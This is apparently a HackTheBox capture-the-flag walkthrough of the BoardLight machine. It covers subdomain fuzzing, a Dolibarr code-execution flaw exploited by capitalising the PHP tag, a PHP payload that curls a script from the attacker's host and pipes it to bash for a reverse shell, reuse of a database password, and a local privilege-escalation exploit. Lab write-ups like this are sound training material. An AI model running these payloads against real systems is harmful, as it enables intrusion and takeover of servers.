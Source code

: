 +++ 
draft = false
date = 2024-06-04T13:07:16+01:00
title = "BoardLight HTB Walkthrough"
description = ""
slug = ""
authors = ["Dennis Drebitca"]
tags = ["Subdomain Discovery","ffuf","Dollibarr","Find","Grep","CVE-2023-30253","CVE-2022-37706"]
categories = []
externalLink = ""
series = ["HTB"]
+++

![image](Scr_25.png#centre)

[comment]: <> (Insertar imagen de la carátula de la máquina)


The BoardLight HTB machine is a medium difficulty level HackTheBox Machine. The main techniques and tools used to crack this machine are:

    - Grep / Find
    - Subdomain discovery with ffuf
    - CVE-2023-30253
    - CVE-2022-37706

## Reconnaissance

We start a broad Nmap scan by executing the following command:

```sh
sudo nmap -sS -T5 -vvv -p- 10.10.11.11 -Pn -oG nmap_inicial
```

Where the arguments mean:

    -sS: SYN port scan
    -T5: Using timing template 5 of NMAP
    -vvv: Triple verbose so NMAP prints a lot of information
    -p-: All ports are scanned
    -Pn: Skips Host Discovery
    -oG: Grep Format

The scan returns the following information:

![image](Scr.png)

It looks like ports 20 and 80 are open. Classic open ports for SSH and https. Next, we run a more comprehensive scan on the open ports:

```sh
sudo nmap -sCV -p22,80 10.10.11.11 -oN nmap_exhaustivo -v
```

Now the arguments used mean:

    -sCV: Launches all scanning scripts to discover services and versions running on these ports
    -oN: Normal output format
    -v: Single verbose

The results for this second scan are the following:

![image](Scr_1.png)

This is the page visible on port 80:

![image](Scr_2.png)

It doesn't appear to be anything interesting in this page. However, since we still dont know the hostname, we have some valuable information: the hostname might be board.htb, since there is an e-mail shown "info@board.htb".

Lets continue our enumeration, now trying to find existing subdomain. For this, we will use ffuf to fuzz for subdomains:

```sh
ffuf -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-20000.txt -u http://board.htb -H "Host: FUZZ.board.htb" -ic -t 200 -c -fs 15949,0
````
![image](Scr_3.png)

It is important to user the parameter -fs 15949, to filter out any false positives.

![image](Scr_5.png)

We have found a subdomain: crm.board.htb. We add it to /etc/hosts, and see what is there:

![image](Scr_6.png)

It looks like the dolibarr login page. 

## Initial access

After a quick search, we can find the default user/password for dolibarr, and we can log in.

![image](Scr_7.png)

![image](Scr_8.png)

Searching the web, there is an exploit for this version of dolibarr. It leverages the dynamic content interpretation of the webpages, allowing us to execute arbitrary commands. [Here](https://github.com/nikn0laty/Exploit-for-Dolibarr-17.0.0-CVE-2023-30253/tree/main) are the complete instructions.

First, we create a new website, named test:

![image](Scr_9.png)

Then, we create a new page for the website:

![image](Scr_10.png)

And now, we can edit the HTML source and add our mallicious PHP code. 

![image](Scr_11.png)

The trick here is that we can bypass dollibar's protection against PHP code, by capitalizing our tag. Dolibarr blocks <?php> tags, but not <?Php> or <?pHP>... So we can now try to run a simple 2+2, to see if it interprets the code:

![image](Scr_12.png)

![image](Scr_13.png)

And it worked! 2+2=4.

Now, lets try to get a reverse shell. We can make a simple-hhtp-server, and serve a bash reverse shell script which will be curled and piped into bash and executed on the victim machine.

Here we set up the [simple-http-server](https://github.com/TheWaWaR/simple-http-server)

![image](Scr_15.png)

And we access the page to see if the shell.html is displayed properly.

![image](Scr_16.png)

Sweet! Now we just have to pipe it to the victim machine. This is the PHP payload:

```php
<?PHP system('curl http://10.10.14.86:8000/shell.html | bash');?>
```

![image](Scr_14.png)

Before clicking "save", be sure to have a netcat listener waiting for the reverse shell. And voilà, we have access to the user www-data.

![image](Scr_17.png)


## Lateral movement


Lets do some reconnaissance as user www-data. For this, we will be using linpeas, which can be downloaded from the attacker's machine via wget.

```sh
wget http://10.10.14.86:8000/linpeas.sh
chmod +x linpeas.sh
./linpeas.sh
```

Linpeas reports some interesting files:

![image](Scr_19.png)

By looking into the contents of /var/www/html/crm.board.htb/htdocs/conf, we fin the conf.php file, which contains DB_USER and DB_PASS. 

![image](Scr_18.png)

Linpeas also reported that another user, Larissa, has acces to a shell, so lets try the password on user larissa. Trying to log into ssh with user larissa and the password obtained earlier:

```sh
$dolibarr_main_db_user='dolibarrowner';
$dolibarr_main_db_pass='serverfun2$2023!!';
```

![image](Scr_22.png)

Another way to find DB_USER and DB_PASS is by using grep:

```sh
grep -arin 'DB_USER\|DB_PASSWORD' |awk -F':' '{print $1}' | sort | uniq -c
```

## Privilege escalation

By running Linpeas again, it reports some interesting SUID binaries:

![image](Scr_23.png)

This SUID binaries can also be found using find:

```sh
find / -user root -perm -4000 -exec ls -ldb {} \; 2>/dev/null
```


The binaries are from the enlightenment linux window manager. There is a CVE related to this window manager, so lets try the [PoC of CVE-2022-37706](https://github.com/MaherAzzouzi/CVE-2022-37706-LPE-exploit
) to see if this version of enlightenment is vulnerable to LPE.

![image](Scr_24.png)


And just like that, we can now cat out the root flag and the machine is pwned.

## Conclusion

Hacking through the BoardLight HTB machine provides valuable insights into penetration testing techniques, including enumeration, vulnerability exploitation, and privilege escalation. By understanding these steps, aspiring ethical hackers like me can enhance their skills and contribute positively to the cybersecurity landscape.
